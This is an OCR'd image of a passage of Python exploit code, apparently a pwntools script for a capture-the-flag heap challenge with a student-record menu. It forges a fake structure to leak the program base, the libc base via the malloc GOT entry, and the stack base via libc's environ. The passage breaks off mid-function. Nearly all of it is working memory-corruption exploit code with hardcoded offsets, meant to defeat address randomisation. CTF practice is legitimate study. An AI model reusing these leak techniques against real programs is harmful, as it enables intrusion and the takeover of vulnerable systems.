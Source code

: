 ```python

    r.sendline(b"4 0")
    r.sendline(b"0 1 0")

    r.recvuntil(b"choice: \n")
    r.recvuntil(b"choice: \n")

    r.sendline(b"2 0")

    program_value = u64(r.recvline().rstrip().ljust(8,b"\x00"))

    r.recvuntil(b"choice: \n")
    return program_value - 0x202ce8

def leak_libc_base(r, program_base):

    # we can retrieve a libc address from the GOT
    # assuming we have the program base


    got_malloc_offset = 0x202f88

    r.sendline(b"0 0 0") # alloc student 0, 0 virtual

    r.sendlineafter(MENU_DELIM, b"0 1 0") 

    r.sendlineafter(MENU_DELIM, b"4 0")

    r.sendlineafter(MENU_DELIM, b"1 1 24") # set name for student 1, size 24

    fake_student = b"AAAAAAAA" + p64(program_base + got_malloc_offset) + p64(8)

    r.sendline(b" ".join([str(fake_student[x]).encode() for x in range(24)]))

    r.recvuntil(b"choice: \n")
    r.recvuntil(b"choice: \n")

    r.sendline(b"2 0")


    malloc_addr = u64(r.recv(6).rstrip().ljust(8,b"\x00"))

    r.recvuntil(b"choice: \n")

    return malloc_addr - 0x97140 # offset of malloc from libc base

def leak_stack_base(r, libc_base):

    # libc has a variable "environ" which stores a stack address
    # since we know libc base, we can just yoink that


    r.sendline(b"0 0 0")

    r.sendlineafter(MENU_DELIM, b"0 1 0") 

    r.sendlineafter(MENU_DELIM, b"4 0")

    r.sendlineafter(MENU_DELIM, b"1 1 24")


    # 0x3ee098 is environ address
    fake_student = b"AAAAAAAA" + p64(libc_base + 0x3ee098) + p64(8)
```
